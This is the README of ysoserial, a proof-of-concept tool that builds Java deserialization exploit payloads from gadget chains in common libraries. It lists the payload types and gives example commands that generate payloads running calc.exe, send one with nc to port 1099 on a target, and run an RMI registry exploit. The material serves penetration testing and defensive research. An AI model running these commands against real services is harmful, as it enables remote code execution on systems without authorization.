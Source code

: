 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        http://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
Jun 20, 2019 11:04:22 AM org.reflections.Reflections scan
INFO: Reflections took 92 ms to scan 1 urls, producing 18 keys and 160 values 
     Payload             Authors                                Dependencies                                                                                                                                                                                        
     -------             -------                                ------------                                                                                                                                                                                        
     Atomikos            @sciccone                              transactions-osgi:4.0.6, jta:1.1                                                                                                                                                                    
     BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
     C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
     Clojure             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
     CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
     CommonsCollections1 @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections2 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections3 @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections4 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
     FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                            
     Groovy1             @frohoff                               groovy:2.3.9                                                                                                                                                                                        
     Hibernate1          @mbechler                                                                                                                                                                                                                                  
     Hibernate2          @mbechler                                                                                                                                                                                                                                  
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
     JRMPClient          @mbechler                                                                                                                                                                                                                                  
     JRMPListener        @mbechler                                                                                                                                                                                                                                  
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
     Jdk7u21             @frohoff                                                                                                                                                                                                                                   
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
     MozillaRhino1       @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
     MozillaRhino2       @_tint0                                js:1.7R2                                                                                                                                                                                            
     Myfaces1            @mbechler                                                                                                                                                                                                                                  
     Myfaces2            @mbechler                                                                                                                                                                                                                                  
     ROME                @mbechler                              rome:1.0                                                                                                                                                                                            
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
     SpringJta           @zerothoughts, @sciccone               spring-tx:5.1.7.RELEASE, jta:1.1                                                                                                                                                                    
     StrutsJasperReports @sciccone                              struts2-core:2.5.20, struts2-jasperreports-plugin:2.5.20                                                                                                                                            
     URLDNS              @gebl                                                                                                                                                                                                                                      
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                                 
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
